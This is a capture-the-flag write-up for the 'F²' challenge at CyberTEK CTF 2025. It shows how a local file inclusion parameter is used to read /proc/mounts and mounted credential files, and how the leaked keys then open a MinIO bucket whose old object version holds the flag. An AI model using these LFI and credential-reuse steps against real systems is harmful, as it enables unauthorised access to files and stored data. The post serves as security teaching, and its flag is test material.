 ```yaml
---
title: "CyberTEK-CTF 2k25"
date: 2025-05-05
draft: false
description: "Solution for CTCTF 2025"
tags: ["ctf", "misc"]
---
```


### Intro;

Yesterday, CyberTEK CTF held its second edition at TEK-UP University. The competition, as usual, featured over 40 custom-authored challenges that span different categories, and many participants (+100) praised the high quality of the challenges and the overall experience. However, due to my busy schedule with work and life, I could only author two challenges. The first challenge called Misty (cloud + gw misconfiguration) and the second challenge is F² (authored during the first half of the CTF). As Misty has had zero solves and I plan to keep it for future CTFs, I won't release the writeup for it yet. 

# F² Writeup

In this challenge, we’re given a parameter `f` that is vulnerable to **LFI**.  
At first glance, reading common files doesn’t reveal anything useful. But there’s a trick... (well, not every LFI gives a flag directly)

Accessing the `/proc/mounts` file can sometimes give interesting insights into mounted volumes or filesystems:

👉 [https://f2.tekup-securinets.org/?f=/proc/mounts](https://f2.tekup-securinets.org/?f=/proc/mounts)

In the output, we notice some suspicious and uncommon files:

```
travler-gate  
travler-key  
travler-ep  
inventory-99
```

Let’s grab those files using LFI.

After fetching the `travler-gate`, `travler-key`, and `travler-ep`, we find what look like **access credentials** (possibly for a service).

Next, try sending a request to the IP used in the challenge:

```bash
curl -v http://185.91.127.50:13131
```

And here's the response:

```
< Server: MinIO
...
< HTTP/1.1 403 Forbidden
```

The `Server: MinIO` header tells us that we’re dealing with a MinIO instance — a self-hosted S3-compatible object storage service.

This confirms that the **access and secret keys** we found earlier belong to this MinIO service.

## Accessing MinIO

Download the MinIO client `mc` from the official site:  
👉 [Download Minio here](https://min.io/docs/minio/linux/index.html)

Then, configure it with the keys we found:

```bash
mc alias set traveler http://185.91.127.50:13131 ACCESS_KEY SECRET_KEY
```

Now, list the available buckets:

```bash
mc ls traveler
```

You should see a bucket named `inventory-99`.

## Step 4: Explore the Bucket

Let’s list the contents:

```bash
mc ls traveler/inventory-99
```

There’s a file named `item`. Download and inspect it:

```bash
mc cp traveler/inventory-99/item .
cat item
```

At first glance, it looks like just a list of inventory items... nothing special.

```
- id: 001
  name: Rusty Sword
  type: Weapon
  rarity: Common
  quantity: 1

- id: 002
  name: Healing Potion
  type: Consumable
  rarity: Uncommon
  quantity: 3

- id: 003
  name: Silver Key
  type: Quest Item
  rarity: Rare
  quantity: 1
```

But wait, one of the S3 features is versioning, and MinIO supports **versioning** on buckets. That means previous versions of the files might still be accessible.

Let’s list all versions of the `item` file:

```bash
mc ls --versions traveler/inventory-99
```

Copy and check the **first version** of the file:

```bash
mc cp --vid <version-id> traveler/inventory-99/item flag
cat flag
-> securinets{kk12121212121212121212kk}
```

for more details check my git repository.
{{< github repo="chxmxii/CTF" >}}

Related;

{{< github repo="Securinets-TEKUP/CyberTEK-2.0" >}}

